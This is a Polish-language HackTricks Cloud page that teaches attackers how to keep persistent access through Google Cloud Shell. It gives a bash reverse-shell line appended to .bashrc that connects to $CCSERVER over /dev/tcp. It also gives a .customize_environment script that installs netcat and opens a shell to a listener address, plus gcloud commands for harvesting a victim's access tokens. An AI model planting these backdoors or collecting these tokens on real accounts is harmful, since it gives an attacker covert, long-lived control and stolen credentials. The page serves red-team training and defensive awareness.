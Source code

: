 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) zapewnia dostęp do zasobów chmurowych za pomocą wiersza poleceń bezpośrednio z przeglądarki bez żadnych związanych kosztów.

Możesz uzyskać dostęp do Cloud Shell Google'a z **konsoli internetowej** lub uruchamiając **`gcloud cloud-shell ssh`**.

Ta konsola ma kilka interesujących możliwości dla atakujących:

1. **Każdy użytkownik Google z dostępem do Google Cloud** ma dostęp do w pełni uwierzytelnionej instancji Cloud Shell (Konta serwisowe mogą, nawet będąc właścicielami organizacji).
2. Wspomniana instancja **zachowa swój katalog domowy przez co najmniej 120 dni**, jeśli nie zajdzie żadna aktywność.
3. Nie ma **możliwości dla organizacji monitorowania** aktywności tej instancji.

Oznacza to zasadniczo, że atakujący może umieścić backdoora w katalogu domowym użytkownika, a tak długo jak użytkownik łączy się z GC Shell co 120 dni przynajmniej, backdoor przetrwa, a atakujący uzyska powłokę za każdym razem, gdy zostanie uruchomiony, po prostu wykonując:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

W folderze domowym znajduje się inny plik o nazwie **`.customize_environment`**, który, jeśli istnieje, będzie **wykonywany za każdym razem**, gdy użytkownik uzyskuje dostęp do **cloud shell** (jak w poprzedniej technice). Wystarczy wstawić poprzedni backdoor lub jeden podobny do poniższego, aby utrzymać persistencję tak długo, jak użytkownik "często" korzysta z cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ważne jest, aby zauważyć, że **za pierwszym razem, gdy wykonywana jest akcja wymagająca uwierzytelnienia**, w przeglądarce użytkownika pojawia się okno autoryzacji. To okno musi zostać zaakceptowane, zanim polecenie będzie mogło zostać wykonane. Jeśli pojawi się niespodziewane okno, może to budzić podejrzenia i potencjalnie zagrozić metodzie utrzymywania dostępu.
{% endhint %}

To jest okno pop-up z wykonania `gcloud projects list` z chmury shell (jako atakujący) widziane w sesji użytkownika w przeglądarce:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Jednakże, jeśli użytkownik aktywnie korzystał z cloudshell, okno pop-up się nie pojawi i możesz **zbierać tokeny użytkownika za pomocą**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jak nawiązywane jest połączenie SSH

W zasadzie używane są te 3 wywołania API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (spowoduje dodanie klucza publicznego, który utworzyłeś lokalnie)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (spowoduje uruchomienie instancji)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (poinformuje cię o adresie IP google cloud shell)

Ale możesz znaleźć więcej informacji w [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Odniesienia

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
